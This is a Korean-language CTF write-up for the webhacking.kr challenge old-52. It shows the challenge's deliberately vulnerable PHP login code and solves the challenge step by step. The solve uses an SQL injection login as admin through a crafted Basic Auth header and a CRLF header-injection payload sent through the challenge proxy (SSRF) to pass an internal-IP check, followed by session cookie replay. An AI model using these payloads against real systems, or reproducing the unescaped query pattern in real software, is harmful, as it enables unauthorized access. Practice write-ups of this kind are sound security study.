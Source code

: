 ```yaml
---
title: ["[Webhacking.kr] old-52 (ssrf - 40)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, ssrf, sqli, crlf injection]
---
```


```
GET /admin/ HTTP/1.1
Host: webhacking.kr:10008
Cache-Control: max-age=0
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
```  
`Authorization`에 `id:pw`를 `Base64`로 인코딩해서 넘긴다.  

```php
<?php
include "config.php";
if($_GET['view_source']) view_source();
if($_GET['logout'] == 1){
  $_SESSION['login']="";
  exit("<script>location.href='./';</script>");
}
if($_SESSION['login']){
  echo "hi {$_SESSION['login']}<br>";
  if($_SESSION['login'] == "admin"){
    if(preg_match("/^172\.17\.0\./",$_SERVER['REMOTE_ADDR'])) echo $flag;
    else echo "Only access from virtual IP address";
  }
  else echo "You are not admin";
  echo "<br><a href=./?logout=1>[logout]</a>";
  exit;
}
if(!$_SESSION['login']){
  if(preg_match("/logout=1/",$_SERVER['HTTP_REFERER'])){
    header('WWW-Authenticate: Basic realm="Protected Area"');
    header('HTTP/1.0 401 Unauthorized');
  }
  if($_SERVER['PHP_AUTH_USER']){
    $id = $_SERVER['PHP_AUTH_USER'];
    $pw = $_SERVER['PHP_AUTH_PW'];
    $pw = md5($pw);
    $db = dbconnect();
    $query = "select id from member where id='{$id}' and pw='{$pw}'";
    $result = mysqli_fetch_array(mysqli_query($db,$query));
    if($result['id']){
      $_SESSION['login'] = $result['id'];
      exit("<script>location.href='./';</script>");
    }
  }
  if(!$_SESSION['login']){
    header('WWW-Authenticate: Basic realm="Protected Area"');
    header('HTTP/1.0 401 Unauthorized');
    echo "Login Fail";
  }
}
?>
```

flag를 출력하기 위해서는 `$_SESSION['login']`이 `admin`이어야 하고,  
`$_SERVER['REMOTE_ADDR']`이 `172.17.0.`로 시작해야 한다.  
`$_SESSION['login']`은 `PHP_AUTH_USER`와 `PHP_AUTH_PW`를 이용해서 설정된다.  

`$_SERVER['REMOTE_ADDR']`는 문제에서 주어진 프록시 서버를 활용하여 조건을 맞출 수 있다.  

먼저, SQLi 테스트를 해보자.  
필터링이 전혀 없으므로,  
`id`를 `admin'#`, `pw`를 `1234`으로 설정하면 `admin`으로 접근이 가능하다.  

```
Authorization: Basic YWRtaW4nIzoxMjM0
```
위의 값을 프록시를 통해 넘겨주면 된다.  

```
GET /admin/ HTTP/1.1
Host: webhacking.kr:10008
Cache-Control: max-age=0
Authorization: Basic YWRtaW4nIzoxMjM0
Accept-Language: en;q=0.9
```
정상적으로 로그인했을 때의 헤더의 모습이다.  
HTTP 헤더는 `\r\n`으로 구분되므로, 이를 이용해서 위의 헤더처럼 구성할 수 있다.  

뒤에 붙는 `HTTP/1.1`을 처리하기 위해 안 쓰이는 헤더 값을 사용할 수 있다.  

```
?page=/admin/+HTTP/1.1%0d%0aAuthorization:+Basic+YWRtaW4nIzoxMjM0%0d%0aAccept-Language:
```  
최종적인 페이로드는 다음과 같이 구성했다.  

정상적으로 요청이 갔지만 메인페이지로 리다이렉트가 된다.  

```php
if($result['id']){
    $_SESSION['login'] = $result['id'];
    exit("<script>location.href='./';</script>");
}
```  
소스코드를 확인해보니 로그인에 성공할 시에 session 값을 설정하고 리다이렉트하기 때문이었다.  

```php
if($_SESSION['login']){
  echo "hi {$_SESSION['login']}<br>";
  if($_SESSION['login'] == "admin"){
    if(preg_match("/^172\.17\.0\./",$_SERVER['REMOTE_ADDR'])) echo $flag;
    else echo "Only access from virtual IP address";
  }
```  

이 부분이 실행되기 위해, 응답으로 온 session 값을 넣어서 다시 보내 보자.
```
page=/admin/+HTTP/1.1%0d%0aCookie:+PHPSESSID=uk503njuh70n605jenvrb32be4%0d%0aAccept-Language:
```  

성공적으로 flag가 나온다.